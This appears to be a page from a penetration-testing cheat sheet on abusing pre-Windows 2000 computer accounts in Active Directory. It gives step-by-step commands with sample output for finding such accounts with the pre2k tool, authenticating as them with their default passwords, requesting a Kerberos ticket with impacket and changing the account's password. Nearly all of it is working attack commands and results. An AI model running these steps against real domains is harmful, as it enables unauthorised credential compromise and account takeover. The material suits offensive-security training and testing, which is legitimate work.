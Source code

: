 ```yaml
---
title: "Pre-Windows 2000 Computer"
date: 2025-7-10
tags: ["Domain Controller", "Pre-Windows 2000 Computer", "Active Directory", "Windows", "pre2k", "Pre-Created Computer"]
---
```


### Enum

{{< tab set1 tab1 >}}pre2k{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Installation

```console
python3 -m venv venv
```

```console
source venv/bin/activate
```

```console
git clone https://github.com/garrettfoster13/pre2k.git
```

```console
cd pre2k/
```

```console
pip3 install .
```

#### Query

```console
# Unauth
pre2k unauth -d '<DOMAIN>' -dc-ip '<DC_IP>' -verbose -inputfile '<MACHINES_FILE>'
```

```console {class="sample-code"}
$ cat machines.txt 
banking$

$ pre2k unauth -d example.com -dc-ip 192.168.1.10 -verbose -inputfile 'machines.txt'

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @unsigned_sh0rt
                                            @Tw1sm          

[23:53:03] INFO     Testing started at 2025-07-10 23:53:03
[23:53:03] INFO     Using 10 threads
[23:53:03] INFO     VALID CREDENTIALS: example.com\banking$:banking
```

```console
# Auth
pre2k auth -u '<USER>' -p '<PASSWORD>' -d '<DOMAIN>' -dc-ip '<DC_IP>' -verbose
```

```console {class="sample-code"}
$ pre2k auth -u trainee -p trainee -d example.com -dc-ip 192.168.1.10 -verbose                             

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @unsigned_sh0rt
                                            @Tw1sm          

[23:54:06] INFO     Retrieved 2 results total.
[23:54:06] INFO     Testing started at 2025-07-10 23:54:06
[23:54:06] INFO     Using 10 threads
[23:54:07] INFO     VALID CREDENTIALS: example.com\BANKING$:banking
[23:54:07] DEBUG    Invalid credentials: example.com\DC$:dc
```

<small>*Ref: [pre2k](https://github.com/garrettfoster13/pre2k)*</small>

{{< /tabcontent >}}

### Abuse #1: Connect via Kerberos

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Request a Ticket

```console
sudo ntpdate -s <DC> && impacket-getTGT '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.example.com && impacket-getTGT 'example.com/Banking$:banking' -dc-ip dc.example.com     
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Banking$.ccache
```

```console
export KRB5CCNAME='<USER>.ccache'
```

{{< /tabcontent >}}

### Abuse #2: Change Target Password

{{< tab set3 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
impacket-changepasswd -newpass <NEW_PASSWORD> '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>' -protocol rpc-samr
```

```console {class="sample-code"}
$ impacket-changepasswd -newpass banking 'example.com/BANKING$:banking@dc.example.com' -protocol rpc-samr 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of example.com\BANKING$
[*] Connecting to DCE/RPC as example.com\BANKING$
[*] Password was changed successfully.
```

{{< /tabcontent >}}